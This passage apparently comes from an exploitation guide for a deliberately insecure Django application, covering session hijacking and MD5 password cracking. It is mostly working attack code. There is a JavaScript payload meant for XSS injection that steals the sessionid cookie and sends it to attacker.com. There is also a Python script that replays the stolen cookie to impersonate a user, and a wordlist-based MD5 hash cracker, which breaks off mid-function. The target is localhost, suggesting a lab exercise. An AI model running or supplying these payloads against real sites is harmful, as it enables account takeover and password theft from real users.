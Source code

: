 ### 4. Session Hijacking (Insecure Cookies)

**JavaScript Session Stealer** (inject via XSS):
```javascript
// Since SESSION_COOKIE_HTTPONLY = False, we can access the session cookie
var sessionCookie = document.cookie.match(/sessionid=([^;]+)/)[1];

// Send to attacker
fetch('http://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({
        session: sessionCookie,
        url: window.location.href,
        user_agent: navigator.userAgent
    })
});
```

**Session Hijacking Script**:
```python
import requests

def hijack_session(stolen_session_id):
    """Use stolen session ID to impersonate user"""
    
    # Create session with stolen cookie
    session = requests.Session()
    session.cookies.set('sessionid', stolen_session_id)
    
    # Access protected resources
    response = session.get('http://localhost:8000/profile/')
    
    if response.status_code == 200:
        print("[+] Session hijack successful!")
        print(f"[+] User data: {response.text[:200]}...")
    else:
        print("[-] Session hijack failed")
```

### 5. Password Hash Cracking (MD5)

**MD5 Hash Cracking**:
```python
import hashlib
import concurrent.futures

def crack_md5_hash(hash_to_crack, wordlist):
    """Crack MD5 password hash"""
    
    with open(wordlist, 'r') as f:
        passwords = f.read().splitlines()
    
    for password in passwords:
        md5_hash = hashlib.md5(password.encode()).hexdigest()
        
        if md5_hash == hash_to_crack:
            return password
    
    return None

# Example with Django MD5 hash format
def crack_django_md5(django_hash, wordlist):
    """Crack Django MD5 hash (format: md5$salt$hash)"""
    
    parts = django_hash.split('$')
```